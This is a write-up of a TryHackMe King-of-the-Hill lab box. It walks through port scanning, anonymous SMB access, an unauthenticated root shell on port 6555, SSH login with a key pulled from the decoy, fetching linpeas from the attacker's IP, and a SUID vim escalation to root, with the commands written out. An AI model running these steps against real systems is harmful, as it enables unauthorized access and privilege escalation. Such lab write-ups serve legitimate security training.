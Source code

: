 # Tyler.THM - Koth



# enum

```bash
nmap tyler.thm -p- 
nmap tyler.thm -sV -sC 
nmap tyler.thm 
```

we got 2 http servers, 80 8080
```bash 
gobuster dir -u tyler.thm:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
gobuster dir -u tyler.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

we also get some smb ports and unknown port on 6555.
lets start enum the smb to see if there are any shere's that we can enter

# SMB

```bash
smbclient -L \\\\tyler.thm\\

Enter WORKGROUP\root's password:  # NO PASSWORD JUST PRESS ENTER
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.9.1)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	SAMBA                TYLER
```
lets check all the folders

```bash
$ root@kali:# smbclient \\\\tyler.thm\\print$

Enter WORKGROUP\root's password: 
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED

$ root@kali:~/Desktop/CTF/THM/#KOTH/tyler# smbclient \\\\tyler.thm\\IPC$

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

$ root@kali:# smbclient \\\\tyler.thm\\public

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 25 17:09:50 2020
  ..                                  D        0  Wed Mar 25 17:02:28 2020
  flag.txt                            N       33  Wed Mar 25 17:08:05 2020
  alert.txt                           N       50  Wed Mar 25 17:09:50 2020

		13092864 blocks of size 1024. 8517996 blocks available
smb: \> mget *
Get file flag.txt? 
Get file alert.txt? 
smb: \> 
```

so we got a flag but still we are far off...
in the alert.txt file we get some code that i think  its a rabit hole..

### port 6555

from out nmap scan we found port 6555. lets try to see what it contains

```bash
nc tyler.thm 6555
whoami
root
```

as simple as that we got outself a root shell on the machine! lets declare a king.
```bash
cd /root
ls -al

total 24
dr-xr-x---  3 root root 119 Mar 25 15:25 .
dr-xr-xr-x 17 root root 244 Mar 25 09:59 ..
-rw-r--r--  1 root root  18 Dec 28  2013 .bash_logout
-rw-r--r--  1 root root 176 Dec 28  2013 .bash_profile
-rw-r--r--  1 root root 176 Dec 28  2013 .bashrc
-rw-r--r--  1 root root 100 Dec 28  2013 .cshrc
-rw-r--r--  1 root root  33 Mar 25 15:25 flag.txt
drwx------  2 root root  61 Mar 25 15:23 .ssh
-rw-r--r--  1 root root 129 Dec 28  2013 .tcshrc
```

what? no king.txt?
so this is a "rabit hole" somewhat and this shell is seperated from the main machine somehow
I tried to enumerate and see if i can gather some info on the main machine

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ok! we got a user "tdurden" and his id_rsa files
so from a state that i thought that this is defenetly a rabithole im now sure that this is the way to go.

I'll copy id_rsa to my own machine and try to login
```bash
chmod 600 id_rsa

ssh tdurden@10.10.106.164 -i idrsa 
Last login: Mon Jul 13 05:55:42 2020 from ip-10-9-6-216.eu-west-1.compute.internal


[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```
YES! we got a shell on the 'main' machine
now we can enumerate some more.
I'll try to get linpeas

```bash
cd /tmp
wget 10.9.6.216/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

we got from linpease a SUID on vim. this must be it!
lets search for SUID shell on 'GTFO bins'

https://gtfobins.github.io/

```bash
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
^[[2;2R^[]11;rgb:2929/2d2d/2e2e^Gsh-4.2# 2R11;rgb:2929/2d2d/2e2ewhoami
sh: 2R11: command not found
sh: rgb:2929/2d2d/2e2ewhoami: No such file or directory
sh-4.2# whoami
root
sh-4.2# 
```

<!---
flags:

decoy machine /root/flag.txt
main machine 
/home/user/flag.txt
/root/root.txt

smb tyler.thm/public flag.txt + alert.txt
--->
